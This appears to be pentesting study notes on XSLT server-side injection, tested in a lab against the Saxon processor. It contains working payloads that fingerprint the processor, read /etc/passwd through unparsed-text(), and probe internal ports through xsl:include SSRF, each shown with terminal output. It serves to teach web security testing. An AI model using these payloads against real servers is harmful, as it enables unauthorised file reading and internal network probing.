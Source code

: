 # XSLT Server Side Injection (Extensible Stylesheet Languaje Transformations)

[Hacktricks](https://book.hacktricks.xyz/pentesting-web/xslt-server-side-injection-extensible-stylesheet-languaje-transformations)

Gosecure [Blog](https://www.gosecure.net/blog/2019/05/02/esi-injection-part-2-abusing-specific-implementations/).

Extensible Stylesheet Language Transformations (`XSLT`) is an XML-based language usually used when transforming XML documents into HTML, another XML document, or PDF. Extensible Stylesheet Language Transformations Server-Side Injection can occur when arbitrary XSLT file upload is possible or when an application generates the XSL Transformation’s XML document dynamically using unvalidated input from the user.

Depending on the case, XSLT uses built-in functions and the XPATH language to transform a document either in the browser or the server. Extensible Stylesheet Language Transformations are present in some web applications as standalone functionality, SSI engines, and databases like Oracle. At the time of writing, there are 3 ([1](https://www.w3.org/TR/xslt-10/), [2](https://www.w3.org/TR/xslt20/), [3](https://www.w3.org/TR/xslt-30/)) XSLT versions. Version 1 is the least interesting from an attacker's perspective due to the limited built-in functionality. The most used XSLT-related projects are LibXSLT, Xalan, and Saxon. To exploit XSLT Injections, we need to store malicious tags on the server-side and access that content.

We can also use the following [wordlist](https://github.com/carlospolop/Auto\_Wordlists/blob/main/wordlists/xslt.txt) for brute-forcing functionality available in target applications.

**Installation of required packages**

```shell-session
sudo apt install default-jdk libsaxon-java libsaxonb-java

#Tool
saxonb-xslt -xsl:transformation.xsl catalogue.xml

```

The following file can be used to detect the underlying preprocessor.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
<xsl:output method="html"/>
<xsl:template match="/">
    <h2>XSLT identification</h2>
    <b>Version:</b> <xsl:value-of select="system-property('xsl:version')"/><br/>
    <b>Vendor:</b> <xsl:value-of select="system-property('xsl:vendor')" /><br/>
    <b>Vendor URL:</b><xsl:value-of select="system-property('xsl:vendor-url')" /><br/>
</xsl:template>
</xsl:stylesheet>
```

**Transformation through the terminal**

```shell-session
Staphy$ saxonb-xslt -xsl:detection.xsl catalogue.xml

Warning: at xsl:stylesheet on line 2 column 80 of detection.xsl:
  Running an XSLT 1.0 stylesheet with an XSLT 2.0 processor
<h2>XSLT identification</h2><b>Version:</b>2.0<br><b>Vendor:</b>SAXON 9.1.0.8 from Saxonica<br><b>Vendor URL:</b>http://www.saxonica.com/<br>
```

### Readfile

```xml
<xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:abc="http://php.net/xsl" version="1.0">
<xsl:template match="/">
<xsl:value-of select="unparsed-text('/etc/passwd', 'utf-8')"/>
</xsl:template>
</xsl:stylesheet>
```

**Transformation through the terminal**

```shell-session
Staphy$ saxonb-xslt -xsl:readfile.xsl catalogue.xml

Warning: at xsl:stylesheet on line 1 column 111 of readfile.xsl:
  Running an XSLT 1.0 stylesheet with an XSLT 2.0 processor
<?xml version="1.0" encoding="UTF-8"?>root:x:0:0:root:/root:/usr/bin/zsh
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
<SNIP>
```



* `xsl:include` can be used to perform SSRF

We can also mount SSRF attacks if we have control over the transformation.



**ssrf.xsl**

Code: xml

```xml
<xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:abc="http://php.net/xsl" version="1.0">
<xsl:include href="http://127.0.0.1:5000/xslt"/>
<xsl:template match="/">
</xsl:template>
</xsl:stylesheet>
```

**Transformation through the terminal**

Transformation through the terminal

```shell-session
$ saxonb-xslt -xsl:ssrf.xsl catalogue.xml

Warning: at xsl:stylesheet on line 1 column 111 of ssrf.xsl:
  Running an XSLT 1.0 stylesheet with an XSLT 2.0 processor
Error at xsl:include on line 2 column 49 of ssrf.xsl:
  XTSE0165: java.io.FileNotFoundException: http://127.0.0.1:5000/xslt
Failed to compile stylesheet. 1 error detected.
```

Check the different responses above when we hit an open or closed port.

**fingerprinting.xsl**

****

```xml
?xml version="1.0" encoding="ISO-8859-1"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
<xsl:template match="/">
 Version: <xsl:value-of select="system-property('xsl:version')" /><br />
 Vendor: <xsl:value-of select="system-property('xsl:vendor')" /><br />
 Vendor URL: <xsl:value-of select="system-property('xsl:vendor-url')" /><br />
 <xsl:if test="system-property('xsl:product-name')">
 Product Name: <xsl:value-of select="system-property('xsl:product-name')" /><br />
 </xsl:if>
 <xsl:if test="system-property('xsl:product-version')">
 Product Version: <xsl:value-of select="system-property('xsl:product-version')" /><br />
 </xsl:if>
 <xsl:if test="system-property('xsl:is-schema-aware')">
 Is Schema Aware ?: <xsl:value-of select="system-property('xsl:is-schema-aware')" /><br />
 </xsl:if>
 <xsl:if test="system-property('xsl:supports-serialization')">
 Supports Serialization: <xsl:value-of select="system-property('xsl:supportsserialization')"
/><br />
 </xsl:if>
 <xsl:if test="system-property('xsl:supports-backwards-compatibility')">
 Supports Backwards Compatibility: <xsl:value-of select="system-property('xsl:supportsbackwards-compatibility')"
/><br />
 </xsl:if>
</xsl:template>
</xsl:stylesheet>
```

```shell-session
saxonb-xslt -xsl:fingerprinting.xsl catalogue.xml

Warning: at xsl:stylesheet on line 2 column 80 of fingerprinting.xsl:
  Running an XSLT 1.0 stylesheet with an XSLT 2.0 processor
<?xml version="1.0" encoding="UTF-8"?>
 Version: 2.0<br/>
 Vendor: SAXON 9.1.0.8 from Saxonica<br/>
 Vendor URL: http://www.saxonica.com/<br/>
 Product Name: SAXON<br/>
 Product Version: 9.1.0.8<br/>
 Is Schema Aware ?: no<br/>
 Supports Serialization: <br/>
 Supports Backwards Compatibility: <br/>
```

